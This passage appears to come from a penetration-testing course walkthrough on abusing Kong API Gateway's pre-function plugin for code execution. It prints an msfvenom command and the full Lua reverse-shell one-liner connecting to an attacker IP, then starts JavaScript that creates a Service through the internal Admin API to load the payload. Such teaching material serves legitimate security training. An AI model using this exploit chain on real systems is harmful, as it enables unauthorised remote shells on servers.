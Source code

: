 Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your kong.conf file.

That sounds perfect for our purposes! Let's check if Kong has that plugin loaded. Our first call to the Kong API Gateway Admin API actually contained information about what plugins are enabled on the server.

{"plugins":{"enabled_in_cluster":["key-auth"],"available_on_server":{"grpc-web":true,"correlation-id":true,"pre-function":true,"cors":true,...
Listing 60 - Excerpt of enabled plugins

Since the pre-function plugin is enabled, let's try to exploit that. The plugin runs Lua code so we'll need to build a matching payload. We can use msfvenom to generate a reverse shell payload.

kali@kali:~$ msfvenom -p cmd/unix/reverse_lua lhost=192.168.118.3 lport=8888 -f raw -o shell.lua
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 223 bytes
Saved as: shell.lua

kali@kali:~$ cat shell.lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.168.118.3',8888);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
Listing 61 - Generating a Lua reverse shell

Since we will be uploading a Lua file, we won't need "lua -e" in the final version of the payload.

According to the Kong documentation, we have to add a plugin to a Service. We could add the plugin to an existing Service, but let's limit the exposure of it by creating a new Service. A Service needs a Route for us to call it. Let's create a new HTML page with a JavaScript function that creates a Service, adds a Route to the Service, then adds our Lua code as a "pre-function" plugin to the Service.

Any time we add users or modify applications during a security engagement, we should keep track of the changes and undo them at the end of the engagement. We never want to leave an application less secure than we found it.

We can use our previous JavaScript function as a starting point for the new one.

<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}
